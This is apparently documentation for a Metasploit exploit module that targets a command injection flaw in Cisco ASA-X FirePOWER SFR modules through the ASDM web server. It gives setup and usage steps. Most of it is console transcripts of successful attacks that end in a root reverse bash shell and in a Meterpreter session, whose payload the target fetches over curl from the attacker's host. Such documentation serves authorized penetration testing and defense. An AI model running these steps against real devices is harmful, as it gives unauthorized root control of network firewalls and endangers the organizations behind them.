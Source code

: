 ## Vulnerable Application

### Description

This module exploits a command injection vulnerability affecting Cisco ASA-X
with FirePOWER Services devices using the on-board SFR module. The attack
is executed through the ASA's ASDM web server and lands in the SFR module's
underlying Linux system. This module requires credentials for a user that
can execute `session sfr do` (the default ASDM admin has sufficient permission)
and the sfr module must be configured.

The result of successful exploitation is root access on the SFR module. TODO
words about this position in the network.

The following Cisco devices are believed to be affected:

- Cisco ASA 5506H-X with FirePOWER Services
- Cisco ASA 5506W-X with FirePOWER Services
- Cisco ASA 5508-X with FirePOWER Services
- Cisco ASA 5512-X with FirePOWER Services
- Cisco ASA 5515-X with FirePOWER Services
- Cisco ASA 5516-X with FirePOWER Services
- Cisco ASA 5525-X with FirePOWER Services
- Cisco ASA 5545-X with FirePOWER Services
- Cisco ASA 5555-X with FirePOWER Services
- Cisco ISA-3000-2C2F
- Cisco ISA-3000-4C

### Setup

The vulnerable system is a hardware firewall that, to our knowledge,
cannot be emulated. As such, testing requires a physical device. Also,
downloading ASA-X with FirePOWER Services firmware/software requires
a valid contract with Cisco.

If you acquire a device, it should, in theory come pre-installed with
the SFR module. If it is not pre-installed or you do something terrible
to upset the SFR module then you can follow the following [guide](https://www.cisco.com/c/en/us/support/docs/security/asa-firepower-services/118644-configure-firepower-00.html#anc5) to reinstall it.

As with anything with Cisco ASA, configuring ASDM can be a journey, but
theoritically the following three commands should get you close. If you
get lost, [this guide](https://www.cisco.com/c/en/us/td/docs/security/asa/asa94/config-guides/asdm74/general/asdm-74-general-config/intro-start.html#concept_3CB00F667CE04C65843E42B85BA5619B) should help.

```
asdm image disk0:/asdm<version>.bin
http server enable
http network mask inside
```

Where network and mask are who you want to be able to access it and inside
is the zone. E.g. "0.0.0.0 0.0.0.0 outside" is the internet. And that should
satisfy the pre-requisites for exploitation (ASDM+sfr).

## Verification Steps

* Follow setup steps above.
* Do: `use exploit/linux/http/cisco_asax_sfr_rce`
* Do: `set USERNAME <username>`
* Do: `set PASSWORD <password>`
* Do: `set RHOST <ip>`
* Do: `set LHOST <ip>`
* Do: `check`
* Verify the remote host is vulnerable.
* Do: `run`
* Verify the module acquires a root shell

## Options

### USERNAME

The username to authenticate with the ASDM http web server with.

### PASSWORD

The password to authenticate with the ASDM http web server with.

## Scenarios

### Successful exploitation of ASA 5506-X with FirePOWER Services for a root shell

```
msf6 > use exploit/linux/http/cisco_asax_sfr_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/cisco_asax_sfr_rce) > set USERNAME admin
USERNAME => admin
msf6 exploit(linux/http/cisco_asax_sfr_rce) > set PASSWORD labpass1
PASSWORD => labpass1
msf6 exploit(linux/http/cisco_asax_sfr_rce) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(linux/http/cisco_asax_sfr_rce) > set RHOST 10.0.0.21
RHOST => 10.0.0.21
msf6 exploit(linux/http/cisco_asax_sfr_rce) > check
[+] 10.0.0.21:443 - The target is vulnerable. Successfully executed the 'id' command.
msf6 exploit(linux/http/cisco_asax_sfr_rce) > run

[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully executed the 'id' command.
[*] Executing Shell Dropper for cmd/unix/reverse_bash
[*] Command shell session 1 opened (10.0.0.2:4444 -> 10.0.0.21:43056 ) at 2022-04-21 12:49:15 -0700

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux firepower 3.10.107sf.cisco-1 #1 SMP PREEMPT Thu Mar 8 18:29:04 UTC 2018 x86_64 GNU/Linux
```

### Successful exploitation of ASA 5506-X with FirePOWER Services for a Meterpreter shell

```
msf6 > use exploit/linux/http/cisco_asax_sfr_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/cisco_asax_sfr_rce) > set USERNAME admin
USERNAME => admin
msf6 exploit(linux/http/cisco_asax_sfr_rce) > set PASSWORD labpass1
PASSWORD => labpass1
msf6 exploit(linux/http/cisco_asax_sfr_rce) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(linux/http/cisco_asax_sfr_rce) > set RHOST 10.0.0.21
RHOST => 10.0.0.21
msf6 exploit(linux/http/cisco_asax_sfr_rce) > check
[+] 10.0.0.21:443 - The target is vulnerable. Successfully executed the 'id' command.
msf6 exploit(linux/http/cisco_asax_sfr_rce) > set TARGET 1
TARGET => 1
msf6 exploit(linux/http/cisco_asax_sfr_rce) > run

[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully executed the 'id' command.
[*] Executing Linux Dropper for linux/x64/meterpreter_reverse_tcp
[*] Using URL: http://10.0.0.2:8080/FeB2t5vKpa
[*] Client 10.0.0.21 (curl/7.48.0) requested /FeB2t5vKpa
[*] Sending payload to 10.0.0.21 (curl/7.48.0)
[*] Meterpreter session 2 opened (10.0.0.2:4444 -> 10.0.0.21:43058 ) at 2022-04-21 12:51:44 -0700
[*] Command Stager progress - 100.00% done (111/111 bytes)
[*] Server stopped.

meterpreter > shell
Process 6315 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux firepower 3.10.107sf.cisco-1 #1 SMP PREEMPT Thu Mar 8 18:29:04 UTC 2018 x86_64 GNU/Linux
```
